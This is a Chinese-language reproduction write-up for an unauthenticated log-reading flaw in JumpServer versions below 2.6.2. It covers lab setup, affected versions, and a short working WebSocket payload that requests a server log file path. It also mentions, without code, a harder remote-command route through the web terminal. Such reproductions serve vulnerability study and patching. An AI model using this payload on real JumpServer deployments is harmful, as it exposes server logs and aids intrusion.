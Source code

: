 # 0x00 软件介绍
JumpServer：一款在中国流行的开源堡垒机

# 0x01 复现环境
复现环境：本地环境 centos7 x64  
复现版本：JumpServer v2.6.1  
环境搭建：  
1、使用官方提供的v2.6.1的quick_start.sh安装后，竟然后v2.6.2，这个坑真是无语了，使用知识星球师傅提供的安装脚本，安装后是v2.6.1（这个安装脚本执行后可能会报错，多试几次），安装脚本被上载到当前目录下  
2、执行quick_start.sh后，一路默认即可  
3、安装完成后需要切换到/opt/jumpserver-installer-v2.6.1/下执行jmsctl.sh，直接使用绝对路径会报错  
4、需要开启iptables，否则报错  
5、重新安装2.6.1后，本地能访问，远程不能访问，无奈再次重新安装centos7以及JumpServer v2.6.1

# 0x02 利用条件
无

# 0x03 影响版本
JumpServer < v2.6.2  
JumpServer < v2.5.4  
JumpServer < v2.4.5

# 0x04 漏洞复现
攻击环境：kali x64  
chrome下安装扩展：https://chrome.google.com/webstore/detail/websocket-test-client/fgponpodhbmadfljofbimhhlengambbn/related  
远程日志读取payload：  
```
ws://192.168.1.73:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图，红色圈出的部分即为读取到的远程服务器上的日志内容  
![image](./a1.png)

如下图，红色圈出的部分即为服务器上的日志内容  
![image](./a0.png)

至于远程命令执行的复现原理是模拟web terminal，前提需要user、system_user、assert，这3个一般读取不到，利用难度较大

# 0x05 批量脚本
无

# 0x06 参考链接
https://articles.zsxq.com/id_5raonmuwqrru.html  
https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247497420&idx=1&sn=49b6179b24a4275f016a80b16ba401aa&chksm=ec9f2fbfdbe8a6a9318f7ba90eaca911692ae24f72591225efb19eab4852cf8e893936ee2a06&mpshare=1&scene=1&srcid=01183gic1iE9CgPOeU1ZKNoQ&sharer_sharetime=1610978241607&sharer_shareid=39e4b7efe0bb5b2e5770f3a926f3062d&exportkey=AUvxarwZSXcAl0lXgRSI%2F2o%3D&pass_ticket=rI5WvWxPWj9wFDSMj42xLhizShWaMpx4MwP7SFhDHLUZpJ0zrnUrOlEEfOlgFO8t&wx_header=0#rd
